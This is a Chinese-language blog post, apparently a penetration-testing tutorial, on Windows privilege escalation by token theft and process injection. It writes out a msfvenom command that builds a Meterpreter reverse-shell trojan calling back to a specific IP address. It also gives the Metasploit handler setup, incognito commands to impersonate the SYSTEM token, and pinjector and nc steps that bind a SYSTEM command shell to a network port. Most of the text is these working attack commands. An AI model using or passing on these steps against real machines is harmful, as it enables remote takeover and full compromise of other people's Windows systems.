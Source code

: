 ```yaml
---
title: "令牌窃取与进程注入" # 文章标题.
date: 2023-05-29
draft: false
tags: ["权限提升"]
categories: ["Windows提权"]
---
```


# 令牌窃取与进程注入

![权限提升](权限提升.png)

## 令牌窃取

原理：进行**远程过程调用**时**请求提升权限**，然后调**用它从而生成特权安全令牌**以执行**特权操作**。当系统允许令牌不仅用于进程本身，还用于**原始请求进程**时，漏洞就会出现。

令牌窃取的基本流程：**获取会话-利用模块-窃取令牌-提权**

令牌窃取方式在Windows2008之后的高版本操作系统已经没用了，只能用于一些低版本系统。比如

- Microsoft Windows XP Professional SP3和之前版本
- Windows Server 2003 SP2和之前的版本
- Windows Server 2003 x64和x64 SP2
- Windows Server 2003 (用于基于Itanium的系统SP2和先前版本)
- Windows Server 2008 x32 x64
- Windows Server 2008 (用于基于Itanium的系统)
- Windows Vista SP1和之前的版本
- Windows Vista x64 SP1和之前的版本

操作：

在msf服务器上执行以下命令，生成反弹shell木马。

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=8.130.73.157 lport=4848 -f exe -o xx.exe
```

![生成远联马](./生成远联马.png)

在msf中设置监听反弹的shell，监听端口。

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
show options
set lhost 0.0.0.0
set lport 6677
show options
exploit
```

![设置攻击载荷](./设置攻击载荷.png)

将该木马xx.exe，上传到远程目标服务器，并运行木马程序。

本地监听到会话，查看权限为管理员权限Administrator。

行以下命令，利用模块，窃取令牌，提权成功。

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

![提权成功](提权成功.png)

获取到System权限。

## 进程注入

**Windows2003&10进程注入提升-本地**

进程注入提权是本地提权方式的一种较为老的安全技术了，利用的是注入进程的所有者实现权限共享机制，这类技术主要利用在Windows2008之前操作系统上。

核心就是窃取进程的权限（有一些进程有system权限）。

使用pinjector工具进行注入

将pinjector工具上传到目标服务器，运行以下命令：

```shell
pinjector.exe // 运行命令，查看用法
pinjector.exe -l // 列出可注入的进程
pinjector.exe -p pid cmd 6688 // 注入到系统正常的服务里，监听6688端口（一定要注入system权限的进程）
```

![运行命令](./运行命令.png)

添加参数 `-L`参数获取当前计算机的进程列表（列出可以注入的进程） 。

![找到进程](./找到进程.png)

注入412进程，在本地开放6688端口，将6688端口映射到cmd上，只要连接到这个靶机的6688端口，就可以以系统用户打开cmd。

![检测端口](./检测端口.png)

```shell
nc 靶机的IP 6688 # 监听6688端口，成功反弹shell，成功提权
```

![成功提权](./成功提权.png)
